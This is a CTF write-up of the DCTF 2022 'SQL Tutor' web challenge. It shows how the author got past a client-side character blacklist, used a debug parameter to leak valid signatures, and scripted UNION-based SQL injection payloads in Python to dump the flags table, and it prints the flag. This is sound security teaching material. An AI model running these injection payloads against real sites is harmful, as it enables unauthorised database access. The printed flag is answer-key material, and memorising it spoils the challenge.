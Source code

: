 ```yaml
---
title: "SQL Tutor challenge writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "SQL injection", "python"]
categories:
  - Web Exploitation 
ribbon: red
date: 2022-04-17T12:49:18+34:08
toc: true
draft: false
---
```


DCTF 2022 was held from the 15th of April Until the 17th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was ranked easy.

<!--more-->

|             |                                                                                             |
| ----------- | ------------------------------------------------------------------------------------------- |
| CTF name    | [DCTF 2022](https://dctf.dragonsec.si/)                                                     |
| challenge   | SQL Tutor                                                                                   |
| category    | web                                                                                         |
| about       | SQL injection                                                                               |
| description | I found this awesome site for learning SQL. Check it out!                                   |
| points      | 200                                                                                         |
| team        | [0xCha0s](https://ctftime.org/team/168238)                                                  |
| solved By   | [0xMesbaha](https://hussienmisbah.github.io/) and [itsFading](https://itsfading.github.io/) |


## Discovery

we are introduced with this page which execute fixed SQL statements and take one input to fill the `...` in the query

![image](/assets/images/CTFs/SQL_Tutor/20220416155837.png)

However it wasn't that easy , there are some filters for special characters like `` [ ' " `]  `` and for some words like `UNION`

![image](/assets/images/CTFs/SQL_Tutor/20220416155856.png)

## Enumeration

Intercepting the request with Burpsuite to see what is going on , we can see the following :

```bash
POST /verify_and_sign_text HTTP/1.1
Host: sqltutor.dragonsec.si
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 22
Origin: https://sqltutor.dragonsec.si
Te: trailers
Connection: close

text=dGVzdG1l&alg=sha1
```

the text we sent has base64 encoded , and other argument is sent `alg` , sending this request to the repeater and view the response body we can see:

```json
{
  "status": "ok",
  "trimmedText": "dGVzdG1l",
  "signature": "f26039ef86a8c1218019b40e636d66ecfb45324a",
  "debug": null
}
```

it return status ok , if we have changed the text being sent to a text contain one of the Blacklisted characters we will got another response body :

```json
{
  "status": "error",
  "message": "Dangerous strings:[ ' ] in text!",
  "debug": null
}
```

Great , Forwarding the request , we can see another request is issued :

```bash
POST /execute HTTP/2
Host: sqltutor.dragonsec.si
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 74
Origin: https://sqltutor.dragonsec.si
Te: trailers

text=dGVzdG1l&signature=f26039ef86a8c1218019b40e636d66ecfb45324a&queryNo=0
```

and this request will be issued only if the first request passed returns `status:ok` , sending the latest request to the repeater to view the response we can see response body as :

```json
{
  "status": "ok",
  "query": "SELECT * FROM users WHERE users.name='testme'",
  "results": [],
  "description": "This query selects all users with the name 'testme'.",
  "debug": null
}
```

and we can see `"debug:null"` , we can try to add it as a parameter in the `/execute` request and will have the following results

![image](/assets/images/CTFs/SQL_Tutor/20220416161431.png)

we know now the steps it passed through before the execution , so we know that :

```
2 requests are issued :
1st one make sure the text doesn't contain a blacklisted element "the check is at the client side"
2nd one will decode the text form base64 , verify the signature and then execute the query
```

we can skip the first request easily and focus on the 2nd request , providing the `debug` parameter to know the tests we failed or passed

if we try to change the base64 encoded text in the request the old signature will not work

![image](/assets/images/CTFs/SQL_Tutor/20220416162046.png)

and thanks to the `debug` parameter we know what value should this signature be , so basically we need to issue the request 2 times one to get the valid signature and the other to send the payload associated with the valid signature

## Exploitation

we can automate the process to save the time and for efficiency , Let's Build the script :

- sending the request for the 1st time to extract the signature value :

```python
#!/usr/bin/python3
import requests
import base64


url= "https://sqltutor.dragonsec.si/execute"
payload ="""testme """.encode('utf-8')
encoded=base64.b64encode(payload).decode('utf-8')
data = {
"text":encoded,
"signature":"dummy",
"queryNo":"0",
"debug":"true"
}

r1= requests.post(url,data=data)
print(r1.text)
```

![image](/assets/images/CTFs/SQL_Tutor/20220416162632.png)

we will extract the signature value then update the signature parameter in the next request

```python
resp=r1.text
signature= resp.split('"compare":"')[1][0:40]

data["signature"]=signature
r2= requests.post(url,data=data)
print(r2.text)
```

![image](/assets/images/CTFs/SQL_Tutor/20220416162839.png)

Great the signature is okay and the query is executed , now we are ready to inject our text in the statement to be executed

From the debug output the query is :

```SQL
SELECT * FROM users WHERE users.name='test'
```

we need to know number of columns first , update the payload variable :

```python
payload ="""a' order by 8-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163416.png)

keep fuzzing downwards until

```python
payload ="""a' order by 4-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163440.png)

we know it has 4 columns , now let's enumerate the tables names :

```python
payload ="""a' UNION SELECT 1,2,3,table_name FROM information_schema.tables--""".encode('utf-8')
```

and we got this huge output :

![image](/assets/images/CTFs/SQL_Tutor/20220416163702.png)

Beautifying the output , we can notice the `flags` table :

![image](/assets/images/CTFs/SQL_Tutor/20220416163812.png)

- Let's update our payload :

```python
payload ="""a' UNION SELECT 1,2,3,flag FROM flags-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163929.png)

and finally the flag is here

```bash
dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}
```

![](https://media.giphy.com/assets/images/CyoQdbc7FHqqTpkSPI/giphy.gif)
